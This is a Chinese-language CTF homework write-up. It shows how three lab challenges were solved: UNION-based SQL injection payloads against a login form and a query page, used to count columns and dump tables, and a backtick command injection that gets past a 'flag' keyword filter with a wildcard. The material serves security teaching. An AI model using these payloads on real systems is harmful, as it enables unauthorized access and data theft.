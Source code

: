 ```yaml
---
title: 【網路安全實務與社會實踐】作業三
published: 2025-03-27
tags: [CTF, Learning, Writeups]
category: Learning
draft: false
---
```

# 作業三 Write-up by owl_d

### Let me in REVENGE

登入頁面的sqli
可以先試試 `'--`
發現會噴錯

基本上都會有information_schema.tables這個table
所以先試試這個payload:
`username=%27+UNION+SELECT+NULL+from+information_schema.tables#&password=`
![image](https://hackmd.io/_uploads/Bkw55_GaJg.png)
發現有噴關於column數量的error，代表方向是對的了

多試幾個column數量就出來了
payload:
`username=%27+UNION+SELECT+NULL,+NULL,+NULL+from+information_schema.tables#&password=`

意外發現這個也會過：
payload:
`username=%27+UNION+SELECT+@@version,+NULL,+NULL#&password=`

所以應該只要欄位對了就進去了
試試看 `' ORDER BY 3` 可以過
`' ORDER BY 4 `就會報錯
所以其實 `' UNION SELECT NULL, NULL, NULL'` 應該是最快的解法

---

### sqli union REVENGE

先試試上一題的payload:
`%27+UNION+SELECT+NULL+from+information_schema.tables`
試了幾遍發現不管怎麼送都一直跳一樣的error
![image](https://hackmd.io/_uploads/B1MUxYMpkg.png)
後來再仔細看來一下source code
![image](https://hackmd.io/_uploads/ry4DeKz6kg.png)
debug出來了，一個引號不夠用，所以要塞數字或兩個引號

然後就可以開始測 ORDER BY 了，
發現 4 會報錯，代表欄位是 3，

把所有 table 都先 dump 出來
![image](https://hackmd.io/_uploads/BJIrbtMTyx.png)

發現flag的table了
![image](https://hackmd.io/_uploads/B1av4YG6ye.png)
接著看一下columns

最終payload:
![image](https://hackmd.io/_uploads/r1FiEYzpyl.png)

---

### dig-waf-1

先試一下 '\`ls /\`'
![image](https://hackmd.io/_uploads/ByHI8KGaJl.png)
發現 flag 了

![image](https://hackmd.io/_uploads/ryUKItfTJl.png)
要記得flag這個字眼會被過濾掉

![image](https://hackmd.io/_uploads/HJ7lvYMakl.png)
改成用 * 來代替就過了
